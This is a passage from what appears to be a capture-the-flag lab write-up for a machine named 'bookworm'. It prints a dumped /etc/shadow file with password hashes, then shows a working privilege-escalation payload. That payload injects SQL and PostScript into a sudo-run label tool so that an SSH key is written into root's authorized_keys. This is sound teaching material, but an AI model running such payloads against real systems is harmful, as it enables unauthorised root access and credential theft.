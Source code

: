```
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
usbmux:*:19386:0:99999:7:::
sshd:*:19386:0:99999:7:::
systemd-coredump:!!:19386::::::
lxd:!:19386::::::
frank:$6$iQwYpaCFHgzFXVbi$gAKLi4oKtDPb4uaCGW3RkabZ8DyAnQfxbaqhoiAeAsGmP776eOyQt6bvYPPUJ4PAe2PJPanzm3sH5KSiqzrlF.:19387:0:99999:7:::
neil:$6$rN642RtN9dzlaylh$/7DIfm9515mWvCPWM/wL/ANkJJPtKkUNURqcmu/VseEhLch1pQgX7c3l3ij2vA3MmM3PZV5WOrLM7u3gy2V3W1:19387:0:99999:7:::
mysql:!:19387:0:99999:7:::
fwupd-refresh:*:19479:0:99999:7:::
_laurel:!:19480::::::
james:$6$m07oa4vs5KUfYS/j$SjFJnikcpxhLK5wt3cOEE218N1Bfv4M3bQyhUspkepSBzefsAKCFpXbI.JS8N/p17IaYSgG0A217veas0iSC51:19513:0:99999:7:::

```

That’s file read!

### Shell

#### Via Write

With the file write POC, I can simply update it to write my public SSH key into root’s `authorized_keys` file:

```

neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
> 
> /outfile (/root/.ssh/authorized_keys) (w) file def
> outfile (ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing) writestring
> outfile closefile
> 
> (test", 2,3,4,5,6,7'
Fetching order...
Generating PostScript file...
Generating PDF (until the printer gets fixed...)
Documents available in /tmp/tmpp2ccw7ubprintgen

```
